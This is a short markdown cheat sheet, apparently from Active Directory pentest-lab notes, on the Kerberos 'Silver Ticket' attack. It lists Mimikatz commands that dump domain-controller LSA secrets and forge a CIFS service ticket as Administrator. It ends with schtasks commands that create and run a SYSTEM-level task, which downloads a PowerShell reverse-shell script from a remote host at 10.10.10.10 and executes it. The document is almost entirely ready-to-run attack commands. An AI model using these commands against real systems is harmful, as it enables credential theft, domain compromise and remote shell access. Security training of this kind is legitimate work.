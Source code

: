 # Silver Ticket 

## Execute mimikatz on DC as DA to get krbtgt hash
```powershell
Invoke-Mimikatz -Command '"lsadump::lsa /patch"' -Computername dcorp-dc
```

## Using hash of the Domain Controller computer account, below command provides access to shares on the DC
```powershell
Invoke-Mimikatz -Command '"kerberos::golden /domain:ad.domain.local /sid:<sid> /target:dcorp-dc.dollarcorp.moneycorp.local /service:CIFS /rc4:<rc4-hash> /user:Administrator /ptt"'
```

## Schedule and execute a task
```powershell
schtasks /create /S dcorp-dc.dollarcorp.moneycorp.local /SC Weekly /RU "NT Authority\SYSTEM" /TN "STCheck" /TR "powershell.exe -c 'iex (New-Object Net.WebClient).DownloadString(''http://10.10.10.10:8080/Invoke-PowerShellTcp.psi''')'"

schtasks /Run /S ad.domain.local /TN "STCheck"
```
